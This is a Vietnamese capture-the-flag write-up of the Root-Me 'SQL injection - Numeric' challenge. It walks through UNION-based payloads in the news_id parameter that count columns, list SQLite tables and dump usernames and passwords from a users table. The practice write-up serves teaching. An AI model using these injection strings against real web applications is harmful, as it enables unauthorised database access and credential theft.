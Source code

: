 # [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

![](./media/image1.png)

Thử bypass qua login thì không thể thực hiện được.

![](./media/image2.png)

Kiểm tra các thẻ khác trong Home vì nhận thấy điều đặc biệt rằng, 3 link này đều dẫn đến **action=news&news\_id=\[x\].** Thử xóa id của news thì phát hiện database bị lỗi:

![](./media/image3.png)

Database của server là SQLite3. Tương tự bài SQL Injection – String, ta thực hiện inject nó để tìm ra admin. Ta dò được số cột là 3:

![](./media/image4.png)

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,1 from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,1%20from%20sqlite_master)

Ta dò được có 2 bảng users và news:

![](./media/image5.png)

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,name from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,name%20from%20sqlite_master)

Tương tự bài String, ta show ra được username và password của users:

![](./media/image6.png)

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,username,password from users](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,username,password%20from%20users)

Login vào thành công:

![](./media/image7.png)

- Flag: "****************************"
